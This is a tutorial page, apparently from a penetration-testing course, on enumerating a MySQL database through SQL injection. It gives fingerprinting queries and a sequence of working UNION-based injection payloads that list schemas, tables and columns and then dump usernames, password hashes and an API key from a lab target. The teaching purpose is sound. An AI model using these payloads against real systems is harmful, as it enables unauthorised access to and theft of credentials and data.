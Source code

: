 # Database Enumeration

In the previous sections, we learned about different SQL queries in `MySQL` and SQL injections and how to use them. This section will put all of that to use and gather data from the database using SQL queries within SQL injections.

***

## MySQL Fingerprinting

Before enumerating the database, we usually need to identify the type of DBMS we are dealing with. This is because each DBMS has different queries, and knowing what it is will help us know what queries to use.

As an initial guess, if the webserver we see in HTTP responses is `Apache` or `Nginx`, it is a good guess that the webserver is running on Linux, so the DBMS is likely `MySQL`. The same also applies to Microsoft DBMS if the webserver is `IIS`, so it is likely to be `MSSQL`. However, this is a far-fetched guess, as many other databases can be used on either operating system or web server. So, there are different queries we can test to fingerprint the type of database we are dealing with.

As we cover `MySQL` in this module, let us fingerprint `MySQL` databases. The following queries and their output will tell us that we are dealing with `MySQL`:

| Payload            | When to Use                      | Expected Output                                     | Wrong Output                                              |
| ------------------ | -------------------------------- | --------------------------------------------------- | --------------------------------------------------------- |
| `SELECT @@version` | When we have full query output   | MySQL Version 'i.e. `10.3.22-MariaDB-1ubuntu1`'     | In MSSQL it returns MSSQL version. Error with other DBMS. |
| `SELECT POW(1,1)`  | When we only have numeric output | `1`                                                 | Error with other DBMS                                     |
| `SELECT SLEEP(5)`  | Blind/No Output                  | Delays page response for 5 seconds and returns `0`. | Will not delay response with other DBMS                   |

As we saw in the example from the previous section, when we tried `@@version`, it gave us:

<figure><img src="../../../../.gitbook/assets/image (11) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

The output `10.3.22-MariaDB-1ubuntu1` means that we are dealing with a `MariaDB` DBMS similar to MySQL. Since we have direct query output, we will not have to test the other payloads. Instead, we can test them and see what we get.

***

## INFORMATION\_SCHEMA Database

To pull data from tables using `UNION SELECT`, we need to properly form our `SELECT` queries. To do so, we need the following information:

* List of databases
* List of tables within each database
* List of columns within each table

With the above information, we can form our `SELECT` statement to dump data from any column in any table within any database inside the DBMS. This is where we can utilize the `INFORMATION_SCHEMA` Database.

The [INFORMATION\_SCHEMA](https://dev.mysql.com/doc/refman/8.0/en/information-schema-introduction.html) database contains metadata about the databases and tables present on the server. This database plays a crucial role while exploiting SQL injection vulnerabilities. As this is a different database, we cannot call its tables directly with a `SELECT` statement. If we only specify a table's name for a `SELECT` statement, it will look for tables within the same database.

So, to reference a table present in another DB, we can use the dot ‘`.`’ operator. For example, to `SELECT` a table `users` present in a database named `my_database`, we can use:

```sql
SELECT * FROM my_database.users;
```

Similarly, we can look at tables present in the `INFORMATION_SCHEMA` Database.

***

## SCHEMATA

To start our enumeration, we should find what databases are available on the DBMS. The table [SCHEMATA](https://dev.mysql.com/doc/refman/8.0/en/information-schema-schemata-table.html) in the `INFORMATION_SCHEMA` database contains information about all databases on the server. It is used to obtain database names so we can then query them. The `SCHEMA_NAME` column contains all the database names currently present.

Let us first test this on a local database to see how the query is used:

```shell-session
mysql> SELECT SCHEMA_NAME FROM INFORMATION_SCHEMA.SCHEMATA;

+--------------------+
| SCHEMA_NAME        |
+--------------------+
| mysql              |
| information_schema |
| performance_schema |
| ilfreight          |
| dev                |
+--------------------+
6 rows in set (0.01 sec)
```

We see the `ilfreight` and `dev` databases.

{% hint style="info" %}
**Note:** The first three databases are default MySQL databases and are present on any server, so we usually ignore them during DB enumeration. Sometimes there's a fourth 'sys' DB as well.
{% endhint %}

Now, let's do the same using a `UNION` SQL injection, with the following payload:

```sql
cn' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- -
```

<figure><img src="../../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Once again, we see two databases, `ilfreight` and `dev`, apart from the default ones. Let us find out which database the web application is running to retrieve ports data from. We can find the current database with the `SELECT database()` query. We can do this similarly to how we found the DBMS version in the previous section:

```sql
cn' UNION select 1,database(),2,3-- -
```

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We see that the database name is `ilfreight`. However, the other database (`dev`) looks interesting. So, let us try to retrieve the tables from it.

***

## TABLES

Before we dump data from the `dev` database, we need to get a list of the tables to query them with a `SELECT` statement. To find all tables within a database, we can use the `TABLES` table in the `INFORMATION_SCHEMA` Database.

The [TABLES](https://dev.mysql.com/doc/refman/8.0/en/information-schema-tables-table.html) table contains information about all tables throughout the database. This table contains multiple columns, but we are interested in the `TABLE_SCHEMA` and `TABLE_NAME` columns. The `TABLE_NAME` column stores table names, while the `TABLE_SCHEMA` column points to the database each table belongs to. This can be done similarly to how we found the database names. For example, we can use the following payload to find the tables within the `dev` database:

```sql
cn' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='dev'-- -
```

{% hint style="info" %}
Note how we replaced the numbers '2' and '3' with 'TABLE\_NAME' and 'TABLE\_SCHEMA', to get the output of both columns in the same query.
{% endhint %}

<figure><img src="../../../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
**Note:** we added a (where table\_schema='dev') condition to only return tables from the 'dev' database, otherwise we would get all tables in all databases, which can be many.
{% endhint %}

We see four tables in the dev database, namely `credentials`, `framework`, `pages`, and `posts`. For example, the `credentials` table could contain sensitive information to look into it.

***

## COLUMNS

To dump the data of the `credentials` table, we first need to find the column names in the table, which can be found in the `COLUMNS` table in the `INFORMATION_SCHEMA` database. The [COLUMNS](https://dev.mysql.com/doc/refman/8.0/en/information-schema-columns-table.html) table contains information about all columns present in all the databases. This helps us find the column names to query a table for. The `COLUMN_NAME`, `TABLE_NAME`, and `TABLE_SCHEMA` columns can be used to achieve this. As we did before, let us try this payload to find the column names in the `credentials` table:

```sql
cn' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- -
```

<figure><img src="../../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

The table has two columns named `username` and `password`. We can use this information and dump data from the table.

***

## Data

Now that we have all the information, we can form our `UNION` query to dump data of the `username` and `password` columns from the `credentials` table in the `dev` database. We can place `username` and `password` in place of columns 2 and 3:

```sql
cn' UNION select 1, username, password, 4 from dev.credentials-- -
```

{% hint style="info" %}
**Remember:** don't forget to use the dot operator to refer to the 'credentials' in the 'dev' database, as we are running in the 'ilfreight' database, as previously discussed.
{% endhint %}

<figure><img src="../../../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We were able to get all the entries in the `credentials` table, which contains sensitive information such as password hashes and an API key.

